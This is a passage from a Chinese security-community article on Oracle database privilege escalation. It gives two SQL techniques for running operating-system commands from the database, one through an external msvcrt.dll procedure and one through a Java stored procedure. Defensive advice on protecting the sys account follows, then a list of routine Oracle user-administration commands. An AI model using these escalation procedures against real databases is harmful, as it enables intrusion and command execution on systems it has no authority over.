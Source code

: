 ```
create or replace library exec_shell as '$ORACLE_HOME\bin\msvcrt.dll';  
create or replace procedure execmd (command in char) is external name "system" library exec_shell language c; / exec execmd('net user >netaaa.txt'); 
```

### 2.  使用 java 提权

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "JAVACMD" AS import java.lang.*; import java.io.*; public class JAVACMD { public static void execCommand (String command) throws IOException { Runtime.getRuntime().exec(command); } }; / CREATE OR REPLACE PROCEDURE JAVACMDPROC (p_command IN VARCHAR2) AS LANGUAGE JAVA NAME 'JAVACMD.execCommand (java.lang.String)'; / exec javacmdproc('cmd.exe /c net user > netaaa.txt'); 
```

以上两种方法如果使用 sys 均可以提权成功，而普通权限用户是无法完成上面的操作的。所以防御源头还是只能对 sys 特权账户的管理，但是如果真的特权账户被黑客获取，此时的方法也只有使用低权限的数据库进程账户，以及控制进程账户对磁盘的权限，这样操作能将黑客能够操作的权限降到最低。 至于先对低权限的 oracle 账户提升为 dba 权限，然后进行系统提权的操作本文不讨论，也请大牛提供更好的方法。

## 0x09 oracle 常见操作命令

* * *

### 1.  连接数据库

```
conn sys/mima@orcl as sysdba; 
```

### 2.  新建用户

```
create user yonghuming identified by mima; 
```

### 3.  给用户授权

```
grant connect, resource to yonghuming; grant create session to yonghuming; alter user yonghuming quota unlimited on USERS; grant unlimited tablespace to yonghuming; grant select on testable to yonghuming; 
```

### 4.  取消授权

```
revoke connect , resource from yonghuming; 
```

### 5.  删除锁定（解锁）账号

```
alter user yonghuming lock; alter user yonghuming unlock; drop user yonghuming cascade; 
```

版权声明：未经授权禁止转载 [zhangsan](http://drops.wooyun.org/author/zhangsan "由 zhangsan 发布")@[乌云知识库](http://drops.wooyun.org)
